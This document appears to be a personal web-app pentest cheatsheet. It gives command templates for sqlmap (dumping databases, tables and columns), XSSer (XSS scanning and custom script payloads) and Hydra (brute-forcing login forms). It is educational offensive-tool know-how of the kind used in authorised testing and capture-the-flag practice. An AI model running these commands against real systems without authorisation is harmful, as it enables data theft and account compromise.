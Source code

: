 ```yaml
---
description: >-
  cheatsheet for those tools m not familiar with (sorry m not covering all
  tools, most of em are easy)
---
```


# Web app pentest

## sqlmap

### Get request

* to view databases
  * dont write --dbs at start for testing

```bash
sqlmap -u "$url/param?=something" --cookie "COOKIE" -p something --dbs
```

* to view tables

```bash
sqlmap -u "$url/param?=something" --cookie "COOKIE" -p something \
-D DATABASE_NAME --tables
```

* to view colums of that tables

```bash
sqlmap -u "$url/param?=something" --cookie "COOKIE" -p something \
-D DB_NAME -T TABLE_NAME --columns
```

* to dump colums

```bash
sqlmap -u "$url/param?=something" --cookie "COOKIE" -p something \
-D DB_NAME -T TABLE_NAME -C col1,col2 --dump
```



### Post request

* save the response file from burp suite

```bash
sqlmap -r $filename -p something 

# -r is the filename where response is stored
# -p is the target variable where u wanna check sql injection 
```



## XSSer

### Get request

```bash
xsser --url "$url/something=XSS&other_value=eg" --cookie "COOKIE"
#use cookie if needed
#XSS in the url will be the target variable
```

### Post request

* to scan

```bash
xsser -u "$url/something" -p "post_req=XSS&other_data=idk" 
#XSS represents target variable in -p
```

* to scan for all possible vuln/injection payload&#x20;

```bash
xsser -u "$url/something" -p "post_req=XSS&other_data=idk" --auto
```

* to try custom payload

```bash
xsser -u "$url/something" -p "post_req=XSS&other_data=idk" \
-Fp "<script>your_payload</script>"
```

## Hydra

```bash
hydra -L users.txt -P passwd.txt $IP http-port-form \ 
"/page.php:user_name=^USER^&pass_name=^PASS^&other_params:Invalid creds error msg"

#the user_name and pass_name are the names used in the form (name=)
#you can just paste that line with the one u get in burp request and then change
#^USER^ and ^PASS^
```
